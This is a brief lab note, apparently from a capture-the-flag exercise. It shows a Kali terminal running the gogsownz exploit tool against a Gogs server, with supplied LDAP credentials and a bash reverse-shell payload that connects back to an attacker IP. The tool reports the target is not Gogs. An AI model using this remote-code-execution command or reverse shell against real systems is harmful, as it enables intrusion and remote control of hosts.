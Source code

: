 For some reason, not registering as a gogs website
https://0xdf.gitlab.io/2019/10/05/htb-ghoul.html#pivot-to-gogs

```bash
┌──(kali㉿gobots)-[12Jun2024 20:18:47]-[~/SUT/Alchemy/gogsownz-master]
└─$ python3 gogsownz.py http://10.10.110.21:3000/user/login/ -v --creds 'calde_ldap:CsAdlLDAPMoDeBrnd12!' --rce "bash -c 'bash -i >& /dev/tcp/10.10.14.39/9001 0>&1'" --cleanup --burp   
[i] Starting Gogsownz on: http://10.10.110.21:3000/user/login
[+] Loading Gogs homepage
[!] Not a Gogs website
                                                                                                                                                                                                            
┌──(kali㉿gobots)-[12Jun2024 20:20:44]-[~/SUT/Alchemy/gogsownz-master]
└─$ 

```
